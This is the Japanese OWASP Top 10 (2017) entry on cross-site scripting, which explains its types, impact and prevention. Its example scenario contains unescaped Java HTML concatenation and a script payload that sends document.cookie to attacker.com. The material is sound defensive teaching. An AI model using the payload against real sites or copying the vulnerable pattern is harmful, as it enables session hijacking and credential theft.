 # A7:2017-クロスサイトスクリプティング (XSS)

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点           | 影響               |
| -- | -- | -- |
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 3 : 検出のしやすさ 3 | 技術面への影響 2 : ビジネス面への影響 |
| 3種類のXSSはいずれも、自動化ツールを用いて検出および悪用することが可能です。また、誰でも入手できる、XSSを悪用するためのフレームワークも複数存在します。 | XSSは、OWASP Top 10の中では2番目に多く見られる問題であり、アプリケーション全体のおよそ三分の二で検出されます。自動化ツールで、いくつかのXSS問題を検出できます。PHP、J2EE/JSP、またはASP.NETのような成熟した技術においては、特にそれが顕著です。 | XSSの影響は、リフレクテッドおよびDOMベースの場合は中程度、ストアドの場合は重大となります。具体的な被害例として、被害者のブラウザ上でリモートコードが実行されることによる、認証情報やセッションの奪取、被害者へのマルウェア感染が挙げられます。 |

## 脆弱性発見のポイント

XSSには3種類のタイプが存在し、大抵は被害者のブラウザがターゲットとされます:

- **リフレクテッドXSS**: アプリケーションまたはAPIが、ユーザ入力データを適切に検証およびエスケープせずに、HTML出力の一部として含めている。攻撃が成功すると、攻撃者は被害者のブラウザで任意のHTMLやJavaScriptを実行できる。一般的には、ユーザは、いわゆる水飲み場サイトや広告ページなど攻撃に乗っ取られたページに辿り着くための悪質なリンクを踏むことになる。
- **ストアドXSS**: アプリケーションまたはAPIがそのデータを無害化せずに格納する。それら入力データは、後に別のユーザまたは管理者によって閲覧されることになる。ストアドXSSは、大抵の場合、高または重大リスクとみなされる。
- **DOMベースXSS**: JavaScriptフレームワーク、シングルページアプリケーション、およびAPIが、攻撃者の制御可能なデータを動的に取り込んでページに出力することにより、DOMベースXSS脆弱性となる。理想を言えば、アプリケーションは安全でないJavaScript APIに対して攻撃者が制御可能なデータを送信してはいけない。

典型的なXSS攻撃には、セッションの奪取、アカウントの乗っ取り、多要素認証(MFA)の回避、DOMノードの置換または改竄(トロイの木馬を介した偽のログイン画面挿入等)、悪質なソフトウェアのダウンロードやキーロギング等のユーザのブラウザに対する攻撃などが含まれます。

## 防止方法

XSSを防止するには、信頼できないデータを動的なブラウザコンテンツから区別する必要があります。以下を実施します:

- 最新のRuby on RailsやReact JSなど、XSSに悪用されうるデータを自動的にエスケープするよう設計されたフレームワークを使用する。各フレームワークにおけるXSS対策の限界を確認し、対策の範囲外となるデータ使用については、適切な処理を行う。
- ボディ、属性、JavaScript、CSSやURLなどHTML出力のコンテキストに基づいて、信頼出来ないHTTPリクエストデータをエスケープすることで、リフレクテッドおよびストアドXSS脆弱性を解消できる。要求されるデータの詳細なエスケープ手法は [OWASP  Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) を参照のこと。
- クライアント側でのブラウザドキュメント改変時に、コンテキスト依存のエンコーディングを適用することで、DOMベースXSSへの対策となる。これが行えない場合には、[OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)で説明されている、同様のコンテキスト依存のエスケープ手法をブラウザAPIに適用することもできる。
- XSSに対する多層防御措置の一環として [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) を有効に設定する。これは、ローカルファイルインクルードを介して悪意のあるコードを設置可能にする他の脆弱性（例：パストラバーサルを悪用したファイルの上書き、許可されたコンテンツ配信ネットワークから提供された脆弱なライブラリ等）が存在しない場合に効果的である。

## 攻撃シナリオの例

**シナリオ #1**: あるアプリケーションは、検証やエスケープをせず、信頼出来ないデータを使用して、以下のHTMLスニペットを生成しています。

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
攻撃者はブラウザでパラメータ‘CC’を以下に改変します。

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

これにより、被害者のセッションIDが攻撃者のウェブサイトに送信され、被害者のセッションが乗っ取られます。

**注意**: 攻撃者は、アプリケーションが使用している自動化されたCSRF対策を、XSSで破ることができます。

## 参考資料

### OWASP

- [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
- [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### 外部資料

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
